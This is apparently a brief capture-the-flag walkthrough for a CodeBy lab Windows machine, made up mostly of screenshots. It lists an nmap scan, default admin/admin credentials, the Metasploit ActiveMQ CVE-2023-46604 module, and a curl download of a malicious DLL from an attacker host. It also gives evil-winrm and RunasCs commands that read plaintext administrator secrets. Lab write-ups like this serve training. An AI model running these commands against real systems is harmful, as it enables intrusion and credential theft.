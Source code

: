 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9978a913-08ab-40d8-a1c8-338fa6805d66)

```
nmap -p- 192.168.2.8 -v -sC -sV -Pn
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84fb52b4-7c16-4c90-adad-6d26a3fd40d8)

admin/admin

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f885f3e9-c4e7-4b48-9bb3-d56c39be9796)

msf6

multi/misc/apache_activemq_rce_cve_2023_46604

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ab3f585e-50c7-4c02-8d33-abd7a511b7b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/12c6196c-cf44-4ba4-93fd-f9e5cc911e85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7db10fb-550f-4160-8bd9-e3791687ce40)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5ea4d1ce-b2b9-4b54-b667-f65774c1500f)

https://www.exploit-db.com/exploits/51267

```
curl -O http://192.168.100.IP:8000/TextShaping.dll
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2186c168-638f-43da-9d82-f159611a0753)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dcc902b-1063-4e27-bc3d-b9f067f7be60)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e7d7ba3-ddf7-4b65-b9b5-c0ebf5f984c9)

https://github.com/antonioCoco/RunasCs

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/288e71b3-ab6a-471e-9856-28201fb91477)
```
evil-winrm -i 192.168.2.8 -u LOGIN -p PASS -s ~/CodeBy/AD/Hhran
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9c6718d9-e431-40ba-87fc-0835d4cf35cc)
```
Invoke-RunasCs LOGIN PASS "powershell -c Get-SecretInfo" -d CODEBY
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a8f4f008-9925-4b39-8ce8-9fc872d01413)
```
Invoke-RunasCs LOGIN PASS "powershell -c Get-Secret -Name AdmLogin -AsPlainText" -d CODEBY
```
```
Invoke-RunasCs LOGIN PASS "powershell -c Get-Secret -Name AdmPassword -AsPlainText" -d CODEBY
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ed7e7156-f73c-4831-b05c-fedfba56de0e)
```
evil-winrm -i 192.168.2.8 -u Administrator -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eb8dd166-5bda-42a5-aba6-f9030a231220)

